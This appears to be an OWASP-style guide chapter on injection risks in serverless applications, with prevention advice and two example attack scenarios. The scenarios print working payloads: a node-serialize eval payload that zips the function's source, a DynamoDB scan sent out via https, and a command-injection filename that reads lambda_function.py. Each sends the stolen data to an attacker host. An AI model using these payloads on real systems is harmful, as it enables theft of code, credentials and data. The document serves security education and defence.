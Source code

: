 # A1:2017 Injection

## Attack Vectors
Attack vectors for injections in traditional applications are usually referred to any location where the input to the application can be controlled or manipulated by the attacker. However, in serverless applications the attack surface increases.

Since serverless functions can also be triggered from different events sources like cloud storage events (S3, Blob and other cloud storage), Stream data processing (e.g. AWS Kinesis), databases changes (e.g. DynamoDB, CosmosDB), code modifications (e.g. AWS CodeCommit) notifications (e.g. SMS, Emails, IoT) and more, we should no longer consider input coming directly from the API calls as the sole attack surface. 

Moreover, we no longer have control of the line between the origin to the resource. If a function is triggered via email or a database, there is nowhere to put a Firewall or any other control that will validate the event.

## Security Weakness
The traditional SQL/NoSQL Injection will be the same. OS Command Injection might not target the files in the container (e.g. /etc/host), but source code and other secrets could be found in the container. Code injection will allow an attacker to use the provider’s API to scan and interact with other services in the account.

## Impact
The impact of a successful injection attack will lean on the permission the vulnerable function has. If the function has been assigned a role that grants it liberal access to a cloud storage, then injected code could delete data, upload corrupted data, etc. If the function has been granted access to a database table, it could delete records, insert records, etc. Roles that allow creating users and permissions can eventually lead into a cloud account takeover.

## How to Prevent
- Never trust, pass or make any assumptions regarding input and its validity from any resource
- Use a safe API, which avoids the use of the interpreter entirely or provides a parameterized interface, or migrate to use Object Relational Mapping Tools (ORMs)
- Use positive or “whitelist” input validation when possible
- Identify trusted sources and resources and whitelist them, if possible
- For any residual dynamic queries, escape special characters using the specific escape syntax for that interpreter
- Consider all event types and entry points into the system
- Run functions with the least privileges required to perform the task to reduce attack surface
- Use a commercial runtime defense solution to protect functions on execution time

## Example Attack Scenario I
The following function code, repeatedly found in the wild, deserializes data using the eval() function:
![injection-1](images/0x01injection-1.png)

The untrusted input is sent from the trigger’s event to the unserialize function without any validation. By sending the following payload, attackers can steal the source code of the function, simply by creating a new child_proccess that will zip the source-code found in the current directory, wrapping it up with base64 and sending it to any server they have access to:
>
    _$$ND_FUNC$$_function(){require("child_process").exec("tar -pcvzf /tmp/source.tar.gz ./;
    b=`base64 --wrap=0 /tmp/source.tar.gz`; curl -X POST https://serverless.fail/ --data
    $b",function(){});}()

The attacker can now investigate the code and use it to create a more cloud-native attack. For example, using the provider’s API to read from the database:
>
    _$$ND_FUNC$$_function(){var s=require("aws-sdk");var h=require("https"); var d=new
    s.DynamoDB.DocumentClient;d.scan({TableName:process.env.DYNAMODB_TABLE},function(e,a)
    {if(e);else{var t=Buffer.from(JSON.stringify(a)).toString();;var
    h.get(“https://serverless.fail?encodeURI(t)”),function(e){})}});}()

## Example Attack Scenario II
A function is triggered from a storage file upload. The function then downloads the file and processes it.

![injection-2](images/0x01injection-2.png)

However, the the function is vulnerable to command injection, in case a downloaded file does not end with the required file extension (i.e. ​ .jpg ​ ).

To exploit that, an attacker uses the application legitimately, but uploads two files. One of them contains a command injection syntax in its name:
>
    chip.gif c.jpg;cd ..; cd var;cd task;f=`head -50 lambda_function.py|base64 --wrap=0`;curl
    protego.ngrok.io?l="$f"
![injection-3](images/0x01injection-3.png)

To exploit this vulnerability, the attacker needed to:

- Address an existing file (i.e. chip.gif, which he himself uploaded before)
- Exit the /tmp folder
- Enter the /var/task folder (Use of '/' in the object name is not allowed)
- Read the first 50 lines of lambda_function.py and with it the hardcoded keys to the management AWS account
- Wrap the code in base64
- Send it to a destination held by the attacker

As a result of the Lambda execution, a request is sent to the attacker, containing the function’s code:
![injection-4](images/0x01injection-4.png)
![injection-5](images/0x01injection-5.png)

## Serverless Risk Meter
Injection attacks are always a great risk. One major benefit is that serverless APIs are harder for attackers to scan than traditional HTTP apps, which raises the bar dramatically for automated attacks. However, knowing that 99% of possible malicious inputs are coming from API calls in traditional server applications, allowing us to put all our guard there, makes it at least more predictable. The increase in attack surface, results in a major security concern in serverless applications.
